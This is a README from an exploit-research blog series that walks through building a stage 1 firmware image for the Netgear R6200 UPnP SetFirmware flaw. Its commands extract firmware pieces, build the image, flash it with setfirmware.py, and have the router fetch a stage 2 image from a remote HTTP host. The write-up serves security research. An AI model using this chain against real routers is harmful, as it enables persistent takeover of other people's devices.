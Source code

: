##Broken, Abandoned, and Forgotten Code, Part 13

This code corresponds with [part 13](http://shadow-file.blogspot.com) of the Broken, Abandoned, and Forgotten Code series. In this part we build a stage 1 firmware image that will circumvent the Netgear R6200 UPnP daemon's broken update code and, after rebooting, will download and flash a stage 2 image.

A build system to create the stage 1 firmware image can be found in payload-src. However, there are a few pieces I didn't include due to licensing.

* Kernel image (proprietary Netgear EULA)
* Root filesystem (proprietary Netgear EULA)
* mtd writing utility from OpenWRT (GPL licensed)

You can extract the filesystem and kernel from a stock Netgear firmware image. I used and tested the Netgear firmware R6200-V1.0.0.28_1.0.24.chk:

    $ md5sum R6200-V1.0.0.28_1.0.24.chk
    0bbb9004c8cddf2d9602719c34c9e33e  R6200-V1.0.0.28_1.0.24.chk

Identify the offsets and sizes of the kernel and filesystem components using binwalk, and then extract them using `dd`:

     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=squashfs.bin skip=1328446 bs=1
     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=kernel-lzma.bin skip=86 bs=1 count=1328360

Put ``kernel-lzma.bin`` into payload-src/.

Then, you'll need to generate a minimized root filesytem directory as described in [part 11](http://shadow-file.blogspot.com/2015/07/abandoned-part-11.html).

Tar up your minimized root filesystem, and put ``rootfs.tar.gz`` in exploit-src/stage1/src/.

The mtd writer is responsible for flashing the stage 2 firmware image. I have modified this utility from OpenWRT to work with this project. Check out the source and put it in place:

    $ git clone https://github.com/zcutlip/mtdwriter.git
    $ tar zcvf broken_abandoned/part_13/exploit-src/stage1/src/mtdwriter.tar.gz mtdwriter/

You'll also need a little endian MIPS gcc toolchain. Ensure ``mipsel-linux-gcc`` and friends are in your ``$PATH``.

With the missing pieces in place, you can build the stage 1 firmware:

    $ cd exploit-src/
    $ ./buildmips.sh

With this update, assuming you've generated a working, minimized firmware, you should be able to exploit the ``SetFirmware`` vulnerability, and flash your firmware image to the router:

``./setfirmware.py <stage_1_firmware.bin>``

Upon rebooting, the stage 1 firmware will attempt to download the second stage from ``http://10.12.34.56:8080/stage2mtd.bin``
